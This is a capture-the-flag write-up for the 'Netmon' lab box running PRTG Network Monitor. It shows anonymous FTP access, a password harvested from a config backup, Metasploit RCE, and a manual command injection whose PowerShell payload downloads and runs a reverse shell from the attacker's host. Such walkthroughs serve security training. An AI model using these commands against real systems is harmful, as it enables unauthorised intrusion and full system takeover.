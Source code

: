 ## Box: Netmon

## Target IP: `10.10.10.152`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 10.10.10.152
```

Results:

| Port | Service | Version |
| --- | --- | --- |
| 21 | ftp | Microsoft ftpd (anonymous login allowed) |
| 80 | http | Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor) |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | Microsoft Windows Server 2008 R2 - 2012 microsoft-ds |

---

### FTP Access

Logged in anonymously.

Navigated to `C:\Users\Public\Desktop`.

Grabbed user flag:

```
[REDACTED]
```

---

### Web Server Enumeration

Found PRTG Network Monitor running on port 80.

Version:

```
18.1.37.13946

```

Checked default config storage.

Located config files at:

```
/ProgramData/Paessler/PRTG Network Monitor/
```

Downloaded configuration files through FTP.

Searched passwords:

```bash
grep -B5 -A5 -i pass PRTG\ Configuration.old.bak | sed 's/ //g' | sort -u | less
```

Found:

```
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

---

### Authentication

Tried `PrTg@dmin2018`. Failed.

Realized year probably incremented.

Tried `PrTg@dmin2019`. Success.

Logged into the web interface.

---

### Exploitation

**Method 1: Metasploit**

Fired up Metasploit:

```bash
msfconsole
```

Loaded:

```bash
use exploit/windows/http/prtg_authenticated_rce
```

Set options:

```bash
set admin_password PrTg@dmin2019
set rhost 10.10.10.152
set lhost tun0
exploit
```

Immediate Meterpreter shell.

---

**Method 2: Manual**

Followed manual method from [this article](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/).

Used the Notification system command injection.

Tested with:

```bash
test text; ping -n 1 10.10.14.15
```

Confirmed ICMP packet via:

```bash
sudo tcpdump -i tun0 icmp
```

Success.

Generated a PowerShell reverse shell via [revshells.com](http://revshells.com/).

Saved as `reverse.ps1`, hosted it:

```bash
python3 -m http.server 80
```

Started listener:

```bash
nc -lvnp 4444
```

In Notification system, injected:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15/reverse.ps1')
```

Executed.

Caught second shell.

---

### Privilege Escalation

No escalation needed.

Already `NT AUTHORITY\SYSTEM`.

Confirmed:

```bash
whoami
```

Output:

```
nt authority\system
```

---

### Root Flag

Grabbed:

```
[REDACTED]
```
